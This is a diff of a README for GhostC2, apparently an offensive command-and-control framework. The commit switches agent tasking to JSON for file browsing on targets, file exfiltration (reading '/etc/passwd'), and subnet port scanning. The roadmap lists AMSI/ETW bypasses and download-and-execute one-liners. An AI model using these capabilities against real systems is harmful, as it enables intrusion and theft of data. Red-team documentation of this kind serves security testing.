

Before and after one commit to wolfwashere/GhostC2, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 81% size. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -122,39 +155,44 @@ GhostC2 includes a web-based console for interacting with beacons in real-time.
 
 ## 📂 Interactive File Browser (NEW)
 
-GhostC2 now supports an interactive file browser for any active beacon.
+GhostC2 now supports an interactive file browser for any active beacon, fully compatible with obfuscation and polymorphic builds.
 
 - Browse directory trees live in the dashboard
 - Supports both Linux and Windows paths
 - Handles missing/ghost files gracefully
-- Requires agent to run **without command obfuscation enabled** for now
+- Uses structured JSON tasks for full stealth
 
-### Command
-```bash
-browse <path>
+### Command (via API or dashboard):
+```json
+{
+  "action": "browse",
+  "path": "/"
+}
 ```
-Examples:
-```bash
-browse /
+
+or
+
+```json
+{
+  "action": "browse",
+  "path": "C:\"
+}
 ```
-or
-```bash
-browse C:```
 
 **To use:**
 - Click the 📁 "Browse" button for any beacon in the dashboard
 - Navigate folders, see files/sizes, and explore the target system
 
-**Note:**
-Obfuscation support for custom tasks is **coming soon** (see roadmap below).
-
 ---
 
 ## 📂 File Exfiltration
 
-### Command
-```bash
-getfile /etc/passwd
+### Command (via API or dashboard):
+```json
+{
+  "action": "getfile",
+  "path": "/etc/passwd"
+}
 ```
 
 Agent will:
@@ -167,25 +205,19 @@ Agent will:
 
 ## 🔍 Network Scanning
 
-### Command
-```bash
-scan 192.168.0.0/24 ports:80,443,445,3389
+### Command (via API or dashboard):
+```json
+{
+  "action": "scan",
+  "subnet": "192.168.0.0/24",
+  "ports": [80, 443, 445, 3389]
+}
 ```
 
 Agent will:
 - Scan the provided subnet and ports
 - Return open/closed results in JSON
 - Format them in the dashboard
-
-### Example Output
-```
-$ scan 127.0.0.1/32 ports:80
-{
-  "127.0.0.1": {
-    "80": "open"
-  }
-}
-```
 
 ---
 
@@ -283,9 +315,8 @@ send_from_directory('payloads', filename)
 
 - `.hta`, `.bat`, and `.vbs` wrappers
 - AMSI/ETW bypass options
-- Full support for command obfuscation in custom tasks (`browse`, etc.)
 - Dashboard-based file download from browser view
-- JSON/structured tasking for all agent features
+- JSON/structured tasking for *all* agent features
 - Dashboard-based one-liners for download & exec
 
 ---
````
Also changed, not shown: other parts of README.md (+37 -4 lines).
